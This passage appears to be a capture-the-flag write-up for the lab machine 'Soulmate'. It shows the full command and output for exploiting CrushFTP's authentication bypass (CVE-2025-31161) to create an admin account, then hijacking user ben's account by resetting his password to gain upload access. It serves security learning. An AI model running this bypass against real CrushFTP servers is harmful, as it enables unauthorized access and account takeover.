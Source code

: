 
### Application Exploration

- Main Soulmate site allows registration and login.

![soulmate_1](https://gianlucabassani.github.io/assets/soulmate/soulmate_1.jpg)

- No XSS vulnerability found.
- No upload vulnerability found.

- Subdomain ftp hosts CrushFTP with login panel.

![soulmate_2](https://gianlucabassani.github.io/assets/soulmate/soulmate_2.png)

---

## 3. Exploitation

### CrushFTP Exploit (CVE-2025-31161)
- Authentication bypass vulnerability in CrushFTP.
- PoC: [GitHub CVE-2025-31161](https://github.com/Immersive-Labs-Sec/CVE-2025-31161)

```shell
python3 cve-2025-31161.py --target_host ftp.soulmate.htb --port 80 --target_user crushadmin --new_user prime1 --password prime123
```

```
[+] Preparing Payloads
  [-] Warming up the target
[+] Sending Account Create Request
  [!] User created successfully
[+] Exploit Complete you can now login with
   [*] Username: prime1
   [*] Password: prime123
```

**Access Obtained:**
- Login successful with credentials prime1:prime123.
![soulmate_3](https://gianlucabassani.github.io/assets/soulmate/soulmate_3.jpg)

- File upload limited by CrushFTP configuration.


---
### Access to Ben's Account
- Using CrushFTP's user management panel, changed password for user `ben`.
![soulmate_4](https://gianlucabassani.github.io/assets/soulmate/soulmate_4.jpg)

- Now possible to upload files directly to WebProd directory.

![soulmate_5](https://gianlucabassani.github.io/assets/soulmate/soulmate_5.jpg)

---